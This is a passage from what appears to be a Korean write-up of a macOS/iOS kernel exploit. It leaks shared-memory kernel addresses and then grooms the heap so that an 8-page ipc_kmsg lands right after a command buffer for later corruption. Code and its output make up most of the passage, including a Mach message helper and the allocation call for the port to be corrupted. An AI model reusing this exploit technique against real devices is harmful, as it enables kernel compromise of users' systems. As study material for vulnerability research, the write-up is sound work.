 ```cpp
	SUCCESS("command_buffer_shmem_data_kva: 0x%llx\n", command_buffer_shmem_data_kva);
	SUCCESS("segment_list_shmem_data_kva: 0x%llx\n", segment_list_shmem_data_kva);
    //
#endif
```

실행 결과, 공유 메모리가 할당된 주소는 다음과 같게 나온다.

```cpp
[*] try_count: 42961
[+] command_buffer_shmem_data_kva: 0xffffffe0d57d0000
[+] segment_list_shmem_data_kva: 0xffffffe0cf7d0000
```

![Screenshot 2025-09-10 at 3.03.06 AM.png](pics/Screenshot_2025-09-10_at_3.03.06_AM.png)

## 3. 추후 손상시킬 ipc_kmsg 할당

이제 8페이지짜리 ipc_kmsg를 하나 할당하고 보관용으로 `corrupted_kmsg_port`에 저장한다. 해당 `ipc_kmsg`는 커맨드 버퍼 페이저블 맵 바로 뒤에 위치해야한다.

`ipc_kmsg`를 할당하기 위해 `send_message` 함수를 호출하는데, 
해당 함수는 메시지를 받을 목적지 포트를 지정하고, 송신권한인 send right, 그리고 메시지 크기 등 설정을 포함하고 있다.

```cpp
kern_return_t send_message(mach_port_t destination, void *buffer, mach_msg_size_t size) {
    mach_msg_size_t msg_size = sizeof(struct simple_msg) + size;
    struct simple_msg *msg = malloc(msg_size);
    
    memset(msg, 0, sizeof(struct simple_msg));
    
    msg->hdr.msgh_remote_port = destination;
    msg->hdr.msgh_local_port = MACH_PORT_NULL;
    msg->hdr.msgh_bits = MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->hdr.msgh_size = msg_size;
    
    memcpy(&msg->buf[0], buffer, size);
    
    kern_return_t ret = mach_msg(&msg->hdr, MACH_SEND_MSG, msg_size, 0, MACH_PORT_NULL, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
    if (ret) {
        printf("[-] failed to send message\n");
        mach_port_destroy(mach_task_self(), destination);
        free(msg);
        return ret;
    }
    free(msg);
    return KERN_SUCCESS;
}

...

// port which we will later corrupt. should be exactly after command buffer
    mach_port_t corrupted_kmsg_port = POP_PORT();
    ret = send_message(corrupted_kmsg_port, data, (uint32_t)message_size_for_kalloc_size(8 * pagesize) - sizeof(struct simple_msg));
    if (ret) {
        printf("[-] Failed to send message\n");
        goto err;
    }
```
